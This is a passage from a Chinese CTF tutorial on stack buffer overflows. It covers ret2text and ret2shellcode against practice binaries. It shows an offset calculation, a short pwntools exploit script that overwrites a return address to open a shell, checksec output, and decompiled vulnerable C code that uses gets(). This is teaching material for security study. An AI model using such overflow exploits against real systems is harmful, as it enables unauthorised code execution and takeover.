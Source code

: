 可以看到 esp 为 0xffffcd40，ebp 为具体的 payload 如下 0xffffcdc8，同时 s 相对于 esp 的索引为 [esp+0x1c]，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

最后的 payload 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

### 例子

这里我们以 bamboofox 中的 ret2shellcode 为例  

点击下载: [ret2shellcode](https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2shellcode/ret2shellcode)

首先检测程序开启的保护

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用 IDA 看一下程序

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
